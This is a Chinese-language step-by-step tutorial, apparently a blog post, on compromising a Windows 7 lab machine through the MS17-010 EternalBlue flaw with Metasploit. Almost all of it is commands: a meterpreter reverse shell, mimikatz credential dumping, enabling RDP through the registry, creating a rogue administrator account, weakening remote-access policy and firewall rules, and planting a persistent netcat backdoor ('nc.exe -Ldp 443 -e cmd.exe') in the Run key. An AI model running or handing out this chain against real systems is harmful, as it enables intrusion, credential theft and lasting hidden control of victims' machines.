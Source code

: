 ## 一、  启动msf之前的准备工作

root@kali:~#service postgresql start

root@kali:~#msfdb init

root@kali:~#msfconsole

## 二、  查看是否存在漏洞

msf >search ms17_010寻找所需模块

msf >use auxiliary/scanner/smb/smb_ms17_010（加载扫描exp）
msf >set RHOSTS 192.168.92.129（设置被扫描IP）
msf >run(进行扫描，观察是否存在该漏洞)

## 三、  漏洞攻击

msf >use exploit/windows/smb/ms17_010_eternalblue (加载攻击模块)
msf > set RHOST 192.168.92.129（被攻击机IP）
msf >set LHOST 192.168.92.132（设置本地IP）
msf >set LPORT 4444(设置连接端口)
msf >set payload windows/x64/meterpreter/reverse_tcp（配置回链方式）

msf >show options(查看配置相关信息)
msf >run（或者exploit,开始攻击）

## 四、  攻击成功！查看系统信息

meterpreter>sysinfo爆出系统信息
meterpreter>screenshot截屏，截屏后的图片存放在/root/中

meterpreter>upload xx.exe C:\yyy\xxx.exe 这条命令可以上传任意文件，后面会用到，上传后门

meterpreter >shell 进入靶机cmd
如果连接到windows的shell显示乱码，使用如下命令

C:\Windows\system32>chcp 65001

## 五、  爆破密码的过程，使用mimikatz

首先查看是否开启3389端口，如果没有则使用以下命令在cmd中开启

C:\Windows\system32>netstat –ano 观察3389端口是否开启

C:\Windows\system32>REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

C:\Windows\system32>exit

meterpreter > load mimikatz
meterpreter > msv <获取的账号信息是hash值>

meterpreter > ssp <获取的账号信息是明文信息>

meterpreter > wdigest <读取内存中存放的账号密码明文信息>
meterpreter > kerberos <和上面类似>

## 六、  连接win7的远程桌面

重新打开一个命令界面

```
root@kali:~# rdesktop 192.168.92.129
```

输入刚才破解的用户名和密码。如果不使用破解的用户名和密码也可以自己创建一个用户名和密码，但必须赋予创建的账号相关权限

## 七、  创建账号的两种方法

1.通过shell进入靶机，在靶机里创建用户账号，然后添加到administrators用户组，使其也具有administrators权限，最后查看是否是管理员权限

```
meterpreter > shell

C:\Windows\system32>net user test1 123456 /add

C:\Windows\system32>net localgroup administrators test1 /add

C:\Windows\system32>net user test1
```

 

2.利用msf的post后渗透攻击模块，直接在meterpreter下创建，这种创建的账号直接就是administrators权限。

```
meterpreter > run post/windows/manage/enable_rdp

meterpreter > run post/windows/manage/enable_rdp USERNAME=test1 PASSWORD=12345
```

![img](https://img2020.cnblogs.com/blog/1533289/202005/1533289-20200519110008106-1754917541.png)

## 八、  上传后门nc

(ps:如果格式不正确，放在记事本里调一下格式或者换行，正常来说是没有换行的)

 

首先开启win7主机默认共享，以便远程执行命令

```
C:\Windows\system32>cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

开放win7 443端口

```
C:\Windows\system32> netsh firewall add portopening TCP 443 "test" ENABLE
```

上传瑞士军刀nc.exe到windows主机上

```
meterpreter > upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32


```

将nc添加至启动项

```
meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v lltest_nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e cmd.exe'


```

开放win7 443端口

```
C:\Windows\system32>netsh firewall add portopening TCP 443 ENABLE 
```

重启win7并测试后门

```
C:\Windows\system32>shutdown -r -f -t 0
重新打开一个会话界面测试后门，如果能直接进入靶机的shell，则说明后门上传成功，以后可以直接通过这条命令连接靶机
```

```
root@kali:~# nc -v 192.168.72.128 443


```
